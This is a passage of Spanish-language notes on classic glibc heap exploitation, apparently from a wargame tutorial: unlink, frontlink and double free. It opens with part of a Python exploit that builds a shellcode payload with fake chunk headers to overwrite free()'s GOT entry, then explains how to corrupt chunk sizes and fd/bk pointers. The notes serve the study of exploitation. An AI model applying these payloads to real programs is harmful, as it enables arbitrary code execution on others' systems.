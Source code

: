 **got\_free = pack("\<I", 0x08048300 - 12) #Dirección de free() en la plt-12 (será la dirección que se sobrescrita para que se lanza la shellcode la 2º vez que se llame a free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) # Como se dijo el payload comienza con 8 bytes de relleno porque sí**

**payload += prev\_size + fake\_size + got\_free + addr\_sc #Se modifica el 2º trozo, el got\_free apunta a donde vamos a guardar la direccion addr\_sc + 12**

**os.system("./8.3.o " + payload)**

**unset() liberando en sentido inverso (wargame)**

Estamos controlando 3 chunks consecutivos y se liberan en orden inverso al reservado.

En ese caso:

En el chunck c se pone el shellcode

El chunck a lo usamos para sobreescribir el b de forma que el el size tenga el bit PREV\_INUSE desactivado de forma que piense que el chunck a está libre.

Además, se sobreescribe en la cabecera b el size para que valga -4.

Entonces, el programa se pensará que “a” está libre y en un bin, por lo que llamará a unlink() para desenlazarlo. Sin embargo, como la cabecera PREV\_SIZE vale -4. Se pensará que el trozo de “a” realmente empieza en b+4. Es decir, hará un unlink() a un trozo que comienza en b+4, por lo que en b+12 estará el puntero “fd” y en b+16 estará el puntero “bk”.

De esta forma, si en bk ponemos la dirección a la shellcode y en fd ponemos la dirección a la función “puts()”-12 tenemos nuestro payload.

**Técnica de Frontlink**

Se llama a frontlink cuando se libera algo y ninguno de sus trozos contiguos no son libres, no se llama a unlink() sino que se llama directamente a frontlink().

Vulnerabilidad útil cuando el malloc que se ataca nunca es liberado (free()).

Necesita:

Un buffer que pueda desbordarse con la función de entrada de datos

Un buffer contiguo a este que debe ser liberado y al que se le modificará el campo fd de su cabecera gracias al desbordamiento del buffer anterior

Un buffer a liberar con un tamaño mayor a 512 pero menor que el buffer anterior

Un buffer declarado antes del paso 3 que permita sobreescribir el prev\_size de este

De esta forma logrando sobres cribar en dos mallocs de forma descontrolada y en uno de forma controlada pero que solo se libera ese uno, podemos hacer un exploit.

**Vulnerabilidad double free()**

Si se llama dos veces a free() con el mismo puntero, quedan dos bins apuntando a la misma dirección.

En caso de querer volver a usar uno se asignaría sin problemas. En caso de querer usar otro, se le asignaría el mismo espacio por lo que tendríamos los punteros “fd” y “bk” falseados con los datos que escribirá la reserva anterior.
